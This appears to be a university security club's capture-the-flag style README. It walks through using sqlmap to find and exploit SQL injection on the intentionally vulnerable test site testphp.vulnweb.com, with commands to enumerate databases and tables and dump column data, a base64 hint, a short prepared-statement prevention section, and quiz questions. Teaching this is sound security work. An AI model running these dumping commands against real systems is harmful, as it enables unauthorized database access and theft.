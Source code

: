 ## SQLi-sqlmap-challenge
* Author: Kitsios Marios
* Date: 29/11/2021
* Topic: SQLi tool sqlmap
* Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Connect 
* Connect to http://testphp.vulnweb.com/

## Find a possible vulnerable location in the website
   * example: http://testphp.vulnweb.com/something.php?something=something
   ```
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ== 
   ```
   
## Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   There are two ways to do that:
   ```
      sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
   ```
   * OR
   #Intercept the request with BurpSuite (or whatever you prefer)
   #Save the request in a .txt file (because sqlmap works best with a .txt file)
   ```
      sqlmap -u <url> -r <file_path.txt> --dbs
                      -r Specifies a file to read the get request instead of the url
   ```
   
## List all the tables of a database 
```
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables
```

## List information about the columns of a table 
```
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names
```

## Retrieve column data from table
```
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
```

## Prevent SQL Injection
  SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. https://stackoverflow.com/
```
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
```
*In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

## Questions to be answered:
  *1.Which DBMS is being used and what version is it
  *2.What are the names of the two databases
  *3.How many tables are there in the database acuart
  *4.What kind of data type is being stored in the “adsec” column of the table “artists”*
  #5.What is the 1st value of “aname” column of the table “artists” and the database “acuart”
